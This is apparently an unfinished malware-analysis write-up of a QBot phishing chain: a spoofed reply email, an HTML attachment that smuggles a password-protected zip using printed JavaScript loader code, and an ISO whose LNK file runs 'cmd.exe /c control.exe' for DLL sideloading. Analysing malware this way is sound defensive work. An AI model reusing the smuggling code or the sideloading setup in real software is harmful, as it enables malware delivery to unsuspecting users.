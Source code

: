 # Malicious (QBot)

QBot (QakBot) is a Trojan that has been active for years. It was originally malware designed to target governments and businesses for financial fraud by stealing user credentials and keystrokes, but time has moved on since then. We have recently seen an example of this targeting my employee network, so I decided to take a closer look and perform a deep analysis on this sample to see which techniques this new version uses.



## Stage 01 - Email

The email that was received by one of the employees is referencing some valid old email conversation from the target user. I've seen this technique before; it is mainly to gain credibility. However, if you check closely, the original email is from 2019, but I guess it is easy to miss. The source of the email conversion is most probably from a data leak or a compromised laptop. It is not a very good phishing attempt; it screams problems left and right, but I guess they are going for quantity, not quality. The interesting piece is the password-protected zip attachment (basic techniques to bypass malicious file filtering).

![Alt text](data/qbot_email.png?raw=true "Email sample")

## Stage 02 - HTML Attachment

Let's check the attachment.

![Alt text](data/email.png?raw=true "Document details")

It is an HTML file that mimics the GDrive page (using a screenshot that is directly encoded in the code), asking the user to download the file and open it. The file is password-protected to avoid detection on the way.

The HTML file also executes the download of the zip file automatically. The file is also packed directly into the HTML file, so no data need to be downloaded from the Internet.

```
<script language="javascript">
	var zVGUi3zP = document.getElementById('zVGUi3zP').innerText;
	function ready() {
		QqEJCIyy();
    }
	document.addEventListener("DOMContentLoaded", ready);
	zVGUi3zP = document.getElementById('zVGUi3zP').innerText;
	function th418Cpm()
	{
		const KQnNdBZQ = document.querySelector("#N5JP6xfc");
		return KQnNdBZQ.dataset.reminder;
	}
	function QqEJCIyy()
	{
		var TEnDd49w = document.createElement("embed");
		TEnDd49w.setAttribute("width", 120);
		TEnDd49w.setAttribute("height", 120);
		TEnDd49w.setAttribute("id", "cCfHr4vH");
		TEnDd49w.setAttribute("src", "data:image/svg+xml;base64," + zVGUi3zP + th418Cpm());
		document.body.appendChild(TEnDd49w);
	}
</script>
```

The HTML contains three base64 blobs - one is the screenshot used in the fake website, and the other two are later concatenated into one base64 blob. A new document element is created from that as `data:image/svg+xml;base64`. Let's check what is inside.

```
<script>
<![CDATA[
  function get_zip_date(base_64_blob, 512) {
    var YTbnoJHC = [];
    var decoded_blob = atob(base_64_blob);
    for(var i = 0; i < decoded_blob.length; i += 512) {
      var eVcLGshY = decoded_blob.slice(i, i + 512);
      var vZIZ2Kme = new Array(eVcLGshY.length);

      for(var j = 0; j < eVcLGshY.length; j++) {
        vZIZ2Kme[j] = eVcLGshY.charCodeAt(j);
      }
      var JkT5zYmW = new Uint8Array(vZIZ2Kme);
      YTbnoJHC.push(JkT5zYmW);
    }
    var zip_data = new Blob(YTbnoJHC, {type: "application/zip"});
    return zip_data;
  }
  function gdhpoIyu(zip_data) {
    let okVLUB9x = new File([zip_data], "attachment.zip", {type: "application/zip"});
    let WRQWQcyt = URL["createObjectURL"](okVLUB9x);
    window.location.assign(WRQWQcyt);
    URL.revokeObjectURL(WRQWQcyt);
  }
  var base_64_blob = "======DATA====="
  var zip_data = get_zip_date(base_64_blob, 512);
  gdhpoIyu(zip_data);
]]>
</script>
```

We are dealing with a similarly structured file. This time it is with one blob, a little bit more obfuscated script code. You can see deobfuscated function, which basically takes the blob with ZIP file data and decodes it from base64 and serves it as a zip file download.

## Stage 03 - Downloaded ZIP file and following file

The ZIP file is, as described in the email, password-protected, and after unpacking, it contains an ISO file.

```
Directory of C:\Users\labuser\Downloads\Qbot
11/28/2022  09:17 AM    <DIR>          .
11/28/2022  09:17 AM    <DIR>          ..
11/25/2022  09:54 AM         2,031,616 RNP_45105051_14112022.iso
              1 File(s)      2,031,616 bytes
```

The ISO file finally contains something interesting. Only file without `hidden` tag is `RNP_45105051_14112022.lnk`, the rest with.

```
E:\>dir /a
 Directory of E:\
11/27/2021  11:01 PM           149,504 control.exe
11/14/2022  06:37 AM             8,192 edputil.dll
11/09/2022  07:17 AM           608,248 msoffice32.dll
11/10/2022  07:17 AM             1,689 RNP_45105051_14112022.lnk
               4 File(s)        767,633 bytes
```

![Alt text](data/vt_control.png?raw=true "Email sample")

`control.exe` is a valid MS application, so the problem is coming from a different side and that is the dlls which are bundled with the exe. And how does it work? The LNK file is executing following `C:\Windows\System32\cmd.exe /c control.exe`. This will start the `control.exe` from the current folder. A new window with Control Panel will appear and also it will try to load the DLLs needed for the execution. As per default settings of Microsoft Windows, the first location to search for the dll is the current directory, the DLL `msoffice32.dll` is loaded and executed. This dll is the malicious part in the puzzle.

This technique is call DLL Sideloading. You can read more about it for example here https://businessinsights.bitdefender.com/tech-explainer-what-is-dll-sideloading.

## Stage 04

TBA

## Prevention

## Reading and References
